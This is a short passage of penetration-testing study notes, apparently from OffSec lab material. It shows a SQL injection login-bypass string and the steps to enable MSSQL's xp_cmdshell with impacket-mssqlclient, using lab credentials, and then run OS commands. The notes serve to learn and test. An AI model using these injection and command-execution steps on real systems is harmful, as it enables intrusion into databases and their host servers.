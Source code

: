
```mysql
offsec' OR 1=1 -- //
```


## Manual Code Execution

MSSQL has function xp_cmdshell on which passing string for execution will be executed on OS. This is by default disable once enabled we can execute commands.
```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;```

Like
```bash
EXECUTE xp_cmdshell 'whoami';
```
